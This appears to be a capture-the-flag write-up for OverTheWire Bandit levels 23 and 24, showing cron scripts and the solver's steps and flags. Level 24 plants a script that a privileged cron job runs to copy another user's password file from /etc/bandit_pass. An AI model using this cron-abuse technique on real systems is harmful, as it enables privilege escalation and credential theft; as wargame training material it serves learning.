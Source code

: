 # level 23

```bash
@reboot bandit23 /usr/bin/cronjob_bandit23.sh  &> /dev/null
* * * * * bandit23 /usr/bin/cronjob_bandit23.sh  &> /dev/null

cat /usr/bin/cronjob_bandit23.sh
```
```
#!/bin/bash

myname=$(whoami)
mytarget=$(echo I am user $myname | md5sum | cut -d ' ' -f 1)

echo "Copying passwordfile /etc/bandit_pass/$myname to /tmp/$mytarget"

cat /etc/bandit_pass/$myname > /tmp/$mytarget
```
```
cat /tmp/8ca319486bfbbc3663ea0fbe81326349
```

###### Flag: jc1udXuA1tiHqjIsL8yaapX5XIAI6i0n

# level 24

``` bash
#!/bin/bash

myname=$(whoami)

cd /var/spool/$myname
echo "Executing and deleting all scripts in /var/spool/$myname:"
for i in * .*;
do
    if [ "$i" != "." -a "$i" != ".." ];
    then
        echo "Handling $i"
        owner="$(stat --format "%U" ./$i)"
        if [ "${owner}" = "bandit23" ]; then
            timeout -s 9 60 ./$i
        fi
        rm -f ./$i
    fi
done

cd /tmp/Soup123/
touch password.txt
touch script.sh

#!/bin/bash

whoami > /tmp/Soup123/test
cat /etc/bandit_pass/bandit24 > /tmp/Soup123/pass.txt 2>/tmp/Soup123/error.txt

chmod 666 password.txt
```
###### Flag: UoMYTrfrBFHyQXmg6gzctqAwOmw1IohZ
